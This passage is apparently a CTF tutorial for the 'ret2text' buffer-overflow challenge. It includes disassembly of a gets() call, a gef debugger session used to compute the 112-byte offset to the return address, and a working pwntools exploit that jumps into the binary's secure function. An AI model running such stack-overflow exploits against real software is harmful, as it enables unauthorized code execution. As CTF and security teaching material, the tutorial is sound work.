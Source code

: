 ```
.text:080486AB                 mov     [esp], eax      ; s
.text:080486AE                 call    _gets
```

You can see that the string is indexed relative to esp, so we need to debug, put the breakpoint at the call, view esp, ebp, as follows


```shell
gef➤  b *0x080486AE
Breakpoint 1 at 0x80486ae: file ret2text.c, line 24.
gef➤  r
There is something amazing here, do you know anything?

Breakpoint 1, 0x080486ae in main () at ret2text.c:24
24      gets(buf);
───────────────────────────────────────────────────────────────────────[ registers ]────
$eax   : 0xffffcd5c  →  0x08048329  →  "__libc_start_main"
$ebx   : 0x00000000
$ecx   : 0xffffffff
$edx   : 0xf7faf870  →  0x00000000
$esp   : 0xffffcd40  →  0xffffcd5c  →  0x08048329  →  "__libc_start_main"
$ebp   : 0xffffcdc8  →  0x00000000
$esi   : 0xf7fae000  →  0x001b1db0
$edi   : 0xf7fae000  →  0x001b1db0
$eip   : 0x080486ae  →  <main+102> call 0x8048460 <gets@plt>
```

You can see that esp is 0xffffcd40, ebp is the specific payload as follows 0xffffcdc8, and the index of s relative to esp is [esp+0x1c], so the address of s is 0xffffcd5c, so the offset of s relative to ebp is 0x6C, so the relative The offset from the return address is 0x6c+4.


The final payload is as follows:


```python
#!/usr/bin/env python3
from pwn import *

#--------setup--------#

context(arch="i386", os="linux")

elf = ELF("ret2text")
p = elf.process()

#--------ret2text--------#

offset = 112
# <secure+61>: skip the rand() check
secure = elf.sym["secure"] + 61
print(hex(secure))

payload = flat(
    b"A" * offset,
    secure,

)

p.sendlineafter("do you know anything?\n", payload)
p.interactive()
```
